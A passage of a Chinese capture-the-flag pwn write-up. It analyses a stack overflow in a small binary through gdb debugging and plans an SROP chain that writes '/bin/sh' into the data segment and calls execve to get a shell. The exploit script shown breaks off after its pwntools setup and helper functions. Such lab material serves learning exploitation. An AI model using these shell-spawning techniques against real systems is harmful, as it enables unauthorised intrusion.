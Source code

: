 先系统调用 write 打印字符，之后再调用 read 进行读取 0x400 的内容，典型的栈溢出，然后在 data 段开辟了 128 大小的 buf，可以用来写入数据

**gdb 动调**

断点打在**sub\_401000()**

[![](assets/1701612132-1d98e90a302bffab77674488ff8ac7c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230818001631-6d991e30-3d19-1.png)

看一下写入栈的情况

```bash
x/8gx 0x7fffffffdf10
```

[![](assets/1701612132-35d77c01c65bc3a1f30382ff6fb4f2ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230818001636-703764ee-3d19-1.png)

发现无法泄露栈地址

这个时候就要采取第二种思路了，构造 srop 链，先构造一个伪造的栈空间将 binsh 写入 data 段，之后再进行一次 srop 调用 execve() 从而 getshell

exp:

```bash
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

#p=remote("node4.buuoj.cn",26002)
p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
```